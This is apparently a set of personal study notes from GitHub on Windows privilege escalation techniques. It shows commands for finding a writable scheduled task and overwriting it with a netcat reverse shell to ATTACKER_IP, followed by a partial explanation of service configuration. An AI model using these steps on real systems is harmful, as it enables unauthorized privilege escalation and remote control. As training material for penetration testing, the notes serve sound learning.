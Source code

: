 
## Type of Privilege Escalation

- Scheduled Task
- Service Misconfiguration
- Token & Migration
- Unattended Windows Installations
- Powershell History
- IIS Configuration
- Saved Windows Credentials


## Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Find all the schedued Tasks
```
> schtasks /query /fo list /v (ALL THE TASKS)
> schtasks /query /tn {TASK} /fo list /v (ONLY THE TASK)
```

Find the permision needed to edit the task file
```
icacls c:\tasks\{TASK NAME} (I = Inheritance) (F = Full Controle) (icacls = Tool to find permision)
type c:\tasks\{TASK NAME} (check what the task is about)
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\{TASK} (Reverce Shell)
```

Set the attacking machine with a netcat server ready to lisent

```
schtasks /run /tn {TASK} (Launch the vulnerable task or wait until it run)
```


## Service Misconfiguration (REVIEW)

Windows services are managed by the **Service Control Manager** (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the `sc qc` command:

Command Prompt
```shell-session
C:\> sc qc apphostsvc
```

Here we can see that the associated executable is specified through the **BINARY_PATH_NAME** parameter, and the account used to run the service is shown on the **SERVICE_START_NAME** parameter.
